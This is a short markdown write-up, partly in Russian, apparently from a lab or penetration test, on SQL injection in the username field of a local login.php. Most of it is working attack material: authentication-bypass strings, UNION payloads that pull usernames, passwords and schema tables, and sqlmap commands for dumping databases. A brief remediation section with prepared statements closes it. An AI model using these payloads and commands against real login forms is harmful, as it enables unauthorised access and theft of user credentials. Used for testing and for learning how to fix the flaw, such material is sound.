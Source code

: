# SQL Injection — Working Exploits

## Уязвимость

**Location:** `/login.php`  
**Parameter:** `username`  
**Type:** Error-based SQL Injection

---

## Working Payloads

### 1. Authentication Bypass

```sql
' OR '1'='1
' OR 1=1--
admin' --
admin' #
```

**Результат:** Login без правильного пароля

### 2. UNION-based (если работает)

```sql
' UNION SELECT null--
' UNION SELECT null,null--
' UNION SELECT null,null,null--
```

**Цель:** Найти количество columns

### 3. Data Extraction

```sql
' UNION SELECT username, password FROM users--
' UNION SELECT table_name, null FROM information_schema.tables--
```

**Результат:** Извлечение данных из БД

### 4. sqlmap (automated)

```bash
# Basic scan
sqlmap -u "http://localhost:8080/login.php" \
  --data="username=test&password=test" \
  --batch

# Extract databases
sqlmap -u "http://localhost:8080/login.php" \
  --data="username=test&password=test" \
  --dbs --batch

# Dump tables (if DB found)
sqlmap -u "http://localhost:8080/login.php" \
  --data="username=test&password=test" \
  -D database_name --tables --batch
```

---

## Impact

- **Authentication bypass:** Full admin access
- **Data extraction:** All user credentials
- **Potential:** RCE via `INTO OUTFILE` (если permissions)

---

## Remediation

```php
// Уязвимый код
$query = "SELECT * FROM users WHERE username='$username'";

// Безопасный код (Prepared Statements)
$stmt = $pdo->prepare("SELECT * FROM users WHERE username = ?");
$stmt->execute([$username]);
```

**Additional:**
- Input validation
- WAF (Web Application Firewall)
- Least privilege DB user
- Escape special chars (но prepared statements лучше!)
